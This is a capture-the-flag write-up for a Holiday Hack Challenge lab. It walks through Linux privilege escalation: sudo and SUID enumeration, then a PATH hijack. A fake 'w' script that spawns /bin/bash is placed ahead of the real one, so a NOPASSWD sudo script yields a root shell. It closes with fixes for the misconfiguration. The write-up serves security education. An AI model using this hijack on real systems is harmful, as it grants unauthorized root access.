



# Neighborhood Watch Bypass

**Difficulty**: ⭐⭐

---

## Neighborhood Watch Bypass

*Difficulty: *

Assist Kyle at the old data center with a fire alarm that just won't
chill.

## [Kyle Parrish](https://2025.holidayhackchallenge.com/badge?section=conversation&id=kyleparrish)

If you spot a fire, let me know! I'm Kyle, and I've been around the
Holiday Hack Challenge scene for years as arnydo - picked up multiple
Super Honorable Mentions along the way.

When I'm not fighting fires or hunting vulnerabilities, you'll find me
on a unicycle or juggling - I once showed up a professional clown with
his own clubs!

My family and I love exploring those East Tennessee mountains, and
honestly, geocaching teaches you a lot about finding hidden things -
useful in both firefighting and hacking.

Anyway, I could use some help here. This fire alarm keeps going nuts but
there's no fire. I checked.

I think someone has locked us out of the system. Can you see if you can
get back in?

🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨

DOSIS NEIGHBORHOOD FIRE ALARM SYSTEM - LOCKOUT MODE

🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨

🚨 EMERGENCY ALERT: Fire alarm system admin access has been compromised!
🚨

The fire safety systems are experiencing interference and

admin privileges have been mysteriously revoked. The neighborhood's
fire

protection infrastructure is at risk!

⚠️ CURRENT STATUS: Limited to standard user access only

🔒 FIRE SAFETY SYSTEMS: Partially operational but restricted

🎯 MISSION CRITICAL: Restore full fire alarm system control

Your mission: Find a way to bypass the current restrictions and elevate
to

fire safety admin privileges. Once you regain full access, run the
special

command \`/etc/firealarm/restore_fire_alarm\` to restore complete fire
alarm system control and

protect the Dosis neighborhood from potential emergencies.

🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨

🏠 chiuser @ Dosis Neighborhood \~ 🔍 \$

# Neighborhood Watch Bypass - Privilege Escalation Enumeration

## Challenge Overview

**Objective**: Gain root/admin privileges to run
*/etc/firealarm/restore_fire_alarm* and restore the fire alarm system.

**Starting Position**: Standard user account (*chiuser*) with limited
privileges.

## Enumeration Process

### Step 1: Identify Current User Context

*whoami*

*pwd*

*id*

*groups*

**Results:**

*whoami: chiuser*

*pwd: /home/chiuser*

*uid=1000(chiuser) gid=1000(chiuser) groups=1000(chiuser)*

*groups: chiuser*

**What we learned:**

-   We are user *chiuser* (UID 1000)
-   Standard user with no special group memberships
-   No obvious privilege indicators from groups alone

### Step 2: Check Sudo Privileges

*sudo -l*

**Results:**

*Matching Defaults entries for chiuser on 93502c25c54f:*

* env_reset, mail_badpass, *

*
secure_path=/home/chiuser/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin,
*

* env_keep+="API_ENDPOINT API_PORT RESOURCE_ID HHCUSERNAME", *

* env_keep+=PATH*

*User chiuser may run the following commands on 93502c25c54f:*

* (root) NOPASSWD: /usr/local/bin/system_status.sh*

**What we learned (CRITICAL FINDINGS):**

1.  **Sudo Access Without Password:**

    -   We can run */usr/local/bin/system_status.sh* as root with
        *NOPASSWD*
    -   This means: *sudo /usr/local/bin/system_status.sh* executes as
        root without authentication

2.  **PATH Preservation (***env_keep+=PATH***):**

    -   The *PATH* environment variable is **preserved** when running
        sudo
    -   This is a **major security misconfiguration**
    -   Normally, sudo resets PATH for security, but this keeps our
        user-controlled PATH

3.  **Secure Path Configuration:**

    -   *secure_path=/home/chiuser/bin:/usr/local/sbin:\...*
    -   Notice */home/chiuser/bin* is **first** in the secure path
    -   This means any commands in */home/chiuser/bin/* will be executed
        **before** system commands

4.  **Attack Surface Identified:**

    -   If *system_status.sh* calls any commands without absolute paths
        (e.g., *cat* instead of */bin/cat*)
    -   We can create a malicious executable in */home/chiuser/bin/*
        with the same name
    -   When the script runs as root, it will execute our malicious
        version instead!

### Step 3: Search for SUID Binaries

*find / -perm -4000 -type f 2\>/dev/null*

**What we're looking for:**

-   SUID (Set User ID) binaries are executables that run with the
    privileges of their owner (often root)
-   Common priv esc vector: exploitable SUID binaries

**Results:**

*/usr/bin/passwd*

*/usr/bin/gpasswd*

*/usr/bin/newgrp*

*/usr/bin/umount*

*/usr/bin/chfn*

*/usr/bin/mount*

*/usr/bin/chsh*

*/usr/bin/su*

*/usr/bin/sudo*

**Analysis:**

-   All standard system utilities
-   No unusual or exploitable SUID binaries
-   This is NOT our attack vector

### Step 4: Attempt to Access Target Directory

*ls -la /etc/firealarm/*

**Result:**

*ls: cannot open directory '/etc/firealarm/': Permission denied*

**What we learned:**

-   Cannot access the fire alarm directory as standard user
-   Confirms we need root privileges to complete the mission
-   Target file */etc/firealarm/restore_fire_alarm* likely requires root
    to execute

## Vulnerability Summary

### Identified Attack Vector: **PATH Hijacking via Sudo**

**The Vulnerability Chain:**

1.  ✅ Can run *system_status.sh* as root without password
2.  ✅ PATH variable is preserved when using sudo
3.  ✅ */home/chiuser/bin* is in the secure_path and prioritized
4.  ⏳ Need to verify: Does *system_status.sh* call commands without
    absolute paths?

**Next Step:** Examine the contents of */usr/local/bin/system_status.sh*
to identify which commands it calls without absolute paths, then create
malicious versions in */home/chiuser/bin/* to hijack execution.

## Key Concepts

### What is *sudo -l*?

-   Lists sudo privileges for current user
-   Shows which commands can be run as root
-   Displays sudo configuration (environment variables, restrictions)
-   **First command to run** in any Linux priv esc scenario

### What is SUID?

-   **Set User ID** - special permission bit on executables
-   When set, program runs with owner's privileges (often root)
-   Displayed as *s* in permissions: *-rwsr-xr-x*
-   Found with: *find / -perm -4000 -type f 2\>/dev/null*

### What is PATH Hijacking?

-   Attack technique that exploits how Linux searches for executables
-   When a command is called without an absolute path (e.g., *cat* vs
    */bin/cat*), Linux searches directories in *\$PATH* order
-   By controlling PATH or placing malicious executables in prioritized
    directories, attackers can hijack command execution
-   **Critical when combined with sudo and preserved environment
    variables**

### Why is *env_keep+=PATH* dangerous?

-   Sudo normally sanitizes the environment for security
-   *env_keep+=PATH* tells sudo to **preserve** the user's PATH
-   This allows attackers to control which executables sudo'd scripts
    will run
-   Major violation of the principle of least privilege

## Status

**Enumeration Complete** ✅
**Vulnerability Identified**: PATH hijacking via sudo with preserved
environment
**Next Action**: Examine and exploit *system_status.sh*

Showing root on the box!

The Attack Summary:

### The Vulnerability:

-   *sudo -l* revealed you could run */usr/local/bin/system_status.sh*
    as root
-   The *env_keep+=PATH* configuration preserved your PATH variable
-   */home/chiuser/bin* was prioritized in the secure_path

### The Exploit:

-   Created */home/chiuser/bin/w* containing *#!/bin/bash* and
    */bin/bash*
-   When the script ran as root and called *w*, it executed YOUR
    malicious version
-   Your version spawned a root shell instead of showing user info

### The Result:

*🎯 SUCCESS! Fire alarm system admin access RESTORED!*

*🚨 DOSIS NEIGHBORHOOD FIRE PROTECTION: FULLY OPERATIONAL*

# Neighborhood Watch Bypass - Complete Walkthrough Summary

## Challenge Overview

**Objective**: Bypass security restrictions to gain root access and
restore the fire alarm system by running
*/etc/firealarm/restore_fire_alarm*.

**Scenario**: Fire alarm system locked out, admin privileges revoked.
Started as standard user *chiuser* with limited access.

## Phase 1: System Enumeration

### Commands Used:

*whoami \# Confirmed we're user 'chiuser'*

*id \# UID 1000, standard user, no special groups*

*groups \# Only member of 'chiuser' group*

*sudo -l \# Check sudo privileges (CRITICAL)*

*find / -perm -4000 -type f 2\>/dev/null \# Search for SUID binaries*

*ls -la /etc/firealarm/ \# Tried to access target (Permission denied)*

### Key Findings:

**From ***sudo -l***:**

*User chiuser may run the following commands on 93502c25c54f:*

* (root) NOPASSWD: /usr/local/bin/system_status.sh*

**Critical Configuration Issues:**

1.  Can run *system_status.sh* as root without password
2.  *env_keep+=PATH* - PATH variable is **preserved** when using sudo
    (MAJOR VULNERABILITY)
3.  *secure_path=/home/chiuser/bin:\...* - User's home bin directory
    is **first** in path

**SUID Binary Search:**

-   Found only standard system utilities
-   No exploitable SUID binaries
-   This was NOT our attack vector

## Phase 2: Vulnerability Analysis

### Examined the Sudo-Enabled Script:

*cat /usr/local/bin/system_status.sh*

**Script Contents:**

*#!/bin/bash*

*echo "=== Dosis Neighborhood Fire Alarm System Status ==="*

*echo "Fire alarm system monitoring active\..."*

*echo ""*

*echo "System resources (for alarm monitoring):" *

*free -h*

*echo -e "nDisk usage (alarm logs and recordings):"*

*df -h*

*echo -e "nActive fire department connections:"*

*w \# ← TARGET: Called without absolute path!*

*echo -e "nFire alarm monitoring processes:"*

*ps aux \| grep -E "(alarm\|fire\|monitor\|safety)" \| head -5*

*echo ""*

*echo "🔥 Fire Safety Status: All systems operational"*

### Vulnerable Commands Identified:

Commands called **without absolute paths**:

-   *echo* (multiple)
-   *free*
-   *df*
-   *****w***** ← **CHOSEN TARGET**
-   *ps*
-   *grep*
-   *head*

### The Attack Vector: **PATH Hijacking**

**Why this works:**

1.  Script runs as root via sudo
2.  PATH is preserved (*env_keep+=PATH*)
3.  */home/chiuser/bin* is first in the path
4.  Script calls *w* without absolute path (*w* instead of */usr/bin/w*)
5.  Linux searches PATH directories in order
6.  Our malicious */home/chiuser/bin/w* executes **before** real
    */usr/bin/w*

## Phase 3: Exploitation

### Step 1: Create User Bin Directory

*mkdir -p /home/chiuser/bin*

### Step 2: Create Malicious *w* Command

*cat \> /home/chiuser/bin/w \<\< 'EOF'*

*#!/bin/bash*

*/bin/bash*

*EOF*

**What this does:**

-   Creates a fake *w* command
-   Instead of showing logged-in users, it spawns a bash shell
-   When run as root, spawns a **root shell**

### Step 3: Make Executable

*chmod +x /home/chiuser/bin/w*

### Step 4: Verify PATH Setup

*echo \$PATH*

*\# Output: /home/chiuser/bin:/usr/local/sbin:/usr/local/bin:\...*

*\# \^\^\^\^\^\^\^\^\^\^\^\^\^\^\^\^\^\^\^\^ OUR DIRECTORY IS FIRST!*

*which w*

*\# Output: /home/chiuser/bin/w ← Our malicious version will be called!*

### Step 5: Trigger the Exploit

*sudo /usr/local/bin/system_status.sh*

**Execution Flow:**

1.  Script runs as root
2.  Executes *echo* commands (prints system info)
3.  Executes *free -h* (shows memory)
4.  Executes *df -h* (shows disk usage)
5.  Executes *w* ← **HIJACKED!**
6.  Instead of */usr/bin/w*, runs */home/chiuser/bin/w*
7.  Our script executes */bin/bash* as root
8.  **ROOT SHELL OBTAINED!**

**Prompt Changed:**

*Before: 🏠 chiuser @ Dosis Neighborhood \~ 🔍 \$*

*After: root@93502c25c54f:/home/chiuser#*

## Phase 4: Mission Complete

### Restored Fire Alarm System:

*/etc/firealarm/restore_fire_alarm*

**Output:**

*🔥🚨 FIRE ALARM SYSTEM: Attempting to restore admin privileges\...*

* BYPASSING SECURITY RESTRICTIONS\...*

* Connecting to fire safety control center\...*

* SUCCESS! Fire alarm system admin access RESTORED!*

* DOSIS NEIGHBORHOOD FIRE PROTECTION: FULLY OPERATIONAL*

*✅ All fire safety systems are now under proper administrative control*

## Technical Concepts Demonstrated

### 1. **Sudo Privilege Enumeration**

-   *sudo -l* is the **first command** to run in any Linux privilege
    escalation scenario
-   Shows what commands can be run as root
-   Reveals sudo configuration and environment settings

### 2. **PATH Hijacking Attack**

-   **How Linux finds executables**: Searches directories in *\$PATH*
    from left to right

-   **Relative vs Absolute paths**:

    -   *w* = relative (searches PATH)
    -   */usr/bin/w* = absolute (directly executes that file)

-   **The exploit**: Place malicious executable in PATH before
    legitimate one

### 3. **Environment Variable Preservation**

-   Sudo normally sanitizes environment for security
-   *env_keep+=PATH* preserves user's PATH (dangerous!)
-   Allows attacker to control command resolution

### 4. **SUID Binaries**

-   Programs with Set User ID bit run with owner's privileges
-   Found with: *find / -perm -4000 -type f 2\>/dev/null*
-   Common privilege escalation vector (not used in this challenge)

## The Security Misconfiguration

### What Went Wrong:

1.  ✅ **Sudo access to script** - Necessary for legitimate admin tasks
2.  ❌ **NOPASSWD** - Convenience over security
3.  ❌ **env_keep+=PATH** - **CRITICAL FLAW** - Never preserve PATH with
    sudo!
4.  ❌ **User directory in secure_path** - */home/chiuser/bin* should
    NOT be in sudo's path
5.  ❌ **Commands without absolute paths** - Script should use
    */usr/bin/w* not *w*

### How to Fix:

1.  Remove *env_keep+=PATH* from sudo configuration
2.  Remove */home/chiuser/bin* from *secure_path*
3.  Use absolute paths in all sudo-enabled scripts: */usr/bin/w* instead
    of *w*
4.  Implement principle of least privilege - only allow specific,
    hardened scripts

## Attack Summary

  -------------------- ------------------------------------- ---------------------------------------
  **Reconnaissance**   *sudo -l*                             Found exploitable sudo privilege
  **Analysis**         Read script                           Identified PATH hijacking opportunity
  **Weaponization**    Created malicious *w*                 Prepared privilege escalation payload
  **Exploitation**     *sudo system_status.sh*               Gained root shell
  **Objective**        */etc/firealarm/restore_fire_alarm*   Mission complete
  -------------------- ------------------------------------- ---------------------------------------

## Challenge Complete! 🎉

**Vulnerability Exploited**: PATH Hijacking via Sudo with Preserved
Environment Variables
**Technique**: Malicious command injection in prioritized PATH
directory
**Result**: Root access obtained, fire alarm system restored

**Real-World Impact**: This is a **common misconfiguration** in
production systems. Always audit sudo configurations and never preserve
PATH or use relative command paths in sudo-enabled scripts!

## [Kyle Parrish](https://2025.holidayhackchallenge.com/badge?section=conversation&id=kyleparrish)

If you spot a fire, let me know! I'm Kyle, and I've been around the
Holiday Hack Challenge scene for years as arnydo - picked up multiple
Super Honorable Mentions along the way.

When I'm not fighting fires or hunting vulnerabilities, you'll find me
on a unicycle or juggling - I once showed up a professional clown with
his own clubs!

My family and I love exploring those East Tennessee mountains, and
honestly, geocaching teaches you a lot about finding hidden things -
useful in both firefighting and hacking.

Anyway, I could use some help here. This fire alarm keeps going nuts but
there's no fire. I checked.

I think someone has locked us out of the system. Can you see if you can
get back in?

Wow! Thank you so much! I didn't realize sudo was so powerful.
Especially when misconfigured. Who knew a simple privilege escalation
could unlock the whole fire safety system?

Now\... will you sudo make me a sandwich?

Completed!
